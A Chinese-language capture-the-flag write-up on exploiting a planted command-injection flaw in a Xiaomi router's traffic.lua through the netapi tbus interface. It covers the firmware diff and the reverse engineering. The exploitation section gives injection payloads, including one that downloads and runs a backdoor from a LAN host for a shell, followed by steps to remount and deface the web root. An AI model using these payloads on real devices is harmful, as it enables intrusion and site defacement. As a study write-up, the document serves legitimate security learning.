

# QWB-2021-Final:RealWorld MiRouter WriteUp
>Redbud IoT     

[toc]
## 0x01 题目：


## 0x02 总体思路
### 1)审题
通过题目的说明，我们可以判断几个结论：   
1. 提供ssh，很大可能是小米提供的开发版固件。（后面验证确实）   
2. 题目说刷入patch，本次RW估计是埋的漏洞，而非0day或者1day。    
### 2)Diff
打包固件文件，并通过后台发现固件版本为：2.13.65。    
下载相同版本固件（http://bigota.miwifi.com/xiaoqiang/rom/r3p/miwifi_r3p_firmware_daddf_2.13.65.bin）进行对比。 

结果有/etc/配置文件不同，以及lua脚本（/usr/lib/lua/traffic.lua），该脚本最为可疑如下： 


发现是疑似命令注入过滤去掉`$`的转义，这样就可以通过`$()`的方式触发命令注入漏洞。   
### 3)binary关联分析
已经知道了出题人埋的漏洞点，现在要确认该lua脚本谁调用的。
1. 通过字符串匹配，可以找到/usr/sbin/netapi加载了该lua脚本。  
2. 通过如下通信关系，可以发现netapi与trafficd通信，trafficd作为服务开放了784端口。   
```
tcp 0 0 127.0.0.1:784 127.0.0.1:25351 ESTABLISHED 56 4352 5218/trafficd 
tcp 0 0 127.0.0.1:25351 127.0.0.1:784 ESTABLISHED 28 4388 5440/netapi  
```
其实通过分析发现:    
- trafficd是个魔改ubusd的一个总线通信服务程序。  
- netapi而是作为ubus客户端与总线注册和通信。    
- traffic.lua呗netapi加载调用。   

我们在小米固件中也发现tbus程序，可以监听tbus总线信息，通过tbus list就可以发现netapi注册对象。   
```
>tbus list
>netapi
```
### 4）攻击链猜测
`发送payload---->trafficd（784）--[转发payload]-->netapi--[解析参数]-->traffic.lua---->触发命令注入获取Root Shell----->上黑页`
### 小节
到此，我们发现2个binary和一个lua脚本要分析,漏洞类型为命令注入漏洞。我们需要知道如何给trafficd发送消息，以及发送什么消息。   
发送消息的方法可以通过`tbus call`，发送什么消息向那个event就需要逆向分析了。

## 0x03 程序分析

### 1) /usr/lib/lua/traffic.lua
核心代码如下，cmdfmt就是用于防命令注入的函数（diff点），通过trafficd_lua_ecos_pair_verify(repeater_token)函数传入触发命令注入执行。


这样trafficd_lua_ecos_pair_verify，repeater_token两个关键词在后续分析就较为重要。   

### 2） /usr/sbin/netapi
#### 逆向分析

通过字符串定位到如下位置，netapi加载traffic.lua，然后调用trafficd_lua_ecos_pair_verify函数，传参执行。   

既然我们已经知道它是作为tbus的通信客户端，也知道到如何触发命令注入，所以我们现在就要搞清楚，tbus（ubus）的注册method和data。   
```
tbus call netapi <method> <data>
```
我们上述定位的函数sub_402070()，其实就是注册调用的回调函数，因为其功能是当消息过来之后xxx功能如何处理xxx数据。      
但是交叉索引找不到谁调用了sub_402070()。    
这我们就需要先了解下ubus如何注册订阅的，如下代码ubus客户端，需要ubus_subscriber结构对象来注册，该结构体包括了name,path,method,cb等，我们关心的参数，所以我们找到谁引用0x402070函数指针，ida没有识别出来，需要我们自己解决。         
```
static struct ubus_subscriber test_event;  
...
/* 通知到来时的处理函数。 */  
test_event.cb = test_notify;  
test_event.remove_cb = test_handle_remove; //server主动发起删除该client的订阅的cb函数（如server退出的时候）  

/* 注册test_event */  
ret = ubus_register_subscriber(ctx, &test_event);  
```
https://e-mailky.github.io/2017-08-14-ubus2

struct ubus_subscriber:   
```
121 struct ubus_object {
122         struct avl_node avl;
123 
124         const char *name;
125         uint32_t id;
126 
127         const char *path;
128         struct ubus_object_type *type;
129 
130         ubus_state_handler_t subscribe_cb;
131         bool has_subscribers;
132 
133         const struct ubus_method *methods;
134         int n_methods;
135 };
136 
137 struct ubus_subscriber {
138         struct ubus_object obj;
139 
140         ubus_handler_t cb;
141         ubus_remove_handler_t remove_cb;
142 };
```
https://lxr.openwrt.org/source/ubus/libubus.h#L34

通过地址信息我们发现如下：   

修复后如下：


到这我们知道method为init。    
```
tbus call netapi init <data>
```
最后就是数据格式了，通过固件全局搜tbus，会发现很多tbus执行脚本，我们知道后面的数据为json格式，还是之前的处理函数，通过该语句我们知道其处理获取data参数数据。
```
blobmsg_parse(&off_4061D0, 1, &v31, a5 + 1, (v7 & 0xFFFFFF) - 4);
//&off_4061D0 = data
```
最终获取的tbus命令如下：
```
tbus call netapi init '{"data":"re1111111"}'
```
#### 调试
其实在整个过程中我们可以重启netapi 开启level=5，打印调试信息。
`/usr/sbin/netapi -l 5`



### 3）/usr/sbin/trafficd
得知其作为tbusd服务程序，就不需要深入分析了。


## 0x04 漏洞利用
如下方式可以执行命令：
```
tbus call netapi init '{"data":"re$(touch /tmp/re111)"}'
```
可以下载后门执行获取shell:   
```
tbus call netapi init '{"data":"re$(wget http://192.168.31.7:8000/backdoor -O /tmp/backdoor ; chmod +x /tmp/backdoor ; /tmp/backdoor )111"}'
```
在这拿到shell并不代表结束，我们还需要写黑页，因为该文件系统是只读无法直接修改，我们可以通过重挂在的方式完成该任务。     
* `cp -r /www /tmp/fake_www`；
* `mount -o loop /tmp/fake_www /www`；
* 修改 `/tmp/fake_www/index.html` 为黑页即可。

## 0x05 武器化
我们以上的测试都是通过tbus完成，最终我们想利用有两个方法：
1. qemu+tbus程序
2. 抓流量写脚本

最终我们比赛中采用抓流量写脚本的方式，较为稳定。    
